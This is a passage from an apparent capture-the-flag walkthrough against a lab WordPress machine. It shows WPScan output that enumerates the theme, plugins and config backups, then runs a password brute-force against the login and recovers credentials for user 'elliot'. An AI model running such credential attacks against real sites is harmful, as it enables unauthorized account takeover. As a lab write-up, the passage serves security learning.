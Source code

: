 ```

[+] WordPress theme in use: twentyfifteen
 | Location: http://192.168.1.83/wp-content/themes/twentyfifteen/
 | Latest Version: 3.1
 | Last Updated: 2022-01-25T00:00:00.000Z
 | Readme: http://192.168.1.83/wp-content/themes/twentyfifteen/readme.txt
 | Style URL: http://192.168.1.83/wp-content/themes/twentyfifteen/style.css?ver=4.3.28
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | The version could not be determined.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===============================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 5 user/s
[SUCCESS] -  ELLIOT / qosqomanta                                                                                                                              
[SUCCESS] - elliot / qosqomanta                                                                                                                               
Trying  robot / zzzzzz Time: 00:00:48 <========================================================                          > (4683 / 6781) 69.06%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username:  ELLIOT, Password: qosqomanta
 | Username: elliot, Password: qosqomanta

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Mar 25 18:01:42 2022
[+] Requests Done: 4854
[+] Cached Requests: 6
[+] Data Sent: 1.572 MB
[+] Data Received: 18.82 MB
[+] Memory used: 270.32 MB
[+] Elapsed time: 00:00:54
```

Voilà! In the scan report we can find the password for the user *elliot*:

>Username:  ELLIOT, Password: qosqomanta

---
